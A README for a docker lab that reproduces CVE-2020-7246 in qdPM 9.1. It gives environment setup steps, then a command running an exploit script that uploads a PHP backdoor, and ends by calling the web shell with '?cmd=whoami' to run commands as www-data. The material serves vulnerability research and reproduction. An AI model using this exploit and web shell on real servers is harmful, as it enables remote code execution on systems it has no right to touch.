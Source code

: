 # CVE-2020-7246

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2020-7246>


## PoC / Exploit
 * <https://docs.google.com/document/d/13ZZSm0DL1Ie6r_fU5ZdDKGZ4defFqiFXMG--zDo8S10/edit>
 * <https://www.exploit-db.com/exploits/47954>

## Environment used
* Ubuntu 18.04 LTS
* qdPM 9.1

## Requirements
* docker
* docker-compose
## Reproduction 
Commands to build the environment
```shell script
docker-compose up 
```
* Browse into <http://SERVER_IP:8000/> and press "Database Config"
* In Database Config change the Database host to ```cve20207246_db_1``` DB username to ```teste```, DB password to ```teste```, then press Install Database
* Choose a password for the admin account and them press save
* Press Login As Administrator
* In the login menu use admin@localhost.com as username and the password is the one used above
* After login press Add User and change the following:
     * Fullname: ```teste```
     * Password: ```teste```
     * Email: ```teste@localhost.com```
* Press save

In the terminal execute the following command to inject malicious php file
```shell script
python3 qdPM-exploit.py -url http://SERVER_IP:8080/ -u teste@localhost.com -p teste
```
* Next open the browser on the following link: <http://SERVER_IP:8000//uploads/users/>
* Select one of the php files of the format *-backdoor.php, getting a url in the format of <http://SERVER_IP:8000//uploads/users/*-backdoor.php>
* Add the ``` ?cmd=whoami ``` at the end of the url and ``` www-data ``` should appear as the response